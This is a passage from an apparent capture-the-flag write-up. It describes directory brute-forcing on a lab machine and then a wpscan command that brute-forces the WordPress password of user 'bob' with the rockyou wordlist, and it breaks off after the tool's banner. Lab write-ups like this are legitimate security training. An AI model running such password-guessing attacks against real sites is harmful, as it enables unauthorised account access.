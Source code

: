 <img src="/images/breakme/breakme_apache_default.webp" alt="default apache page" class="postImage">
<p>After some directory bruteforcing using ffuf, I found out that there is a Wordpress site:</p>
<pre>
──(kali㉿kali)-[/opt]
└─$ wpscan --url http://10.10.54.30/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames bob                                                            
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
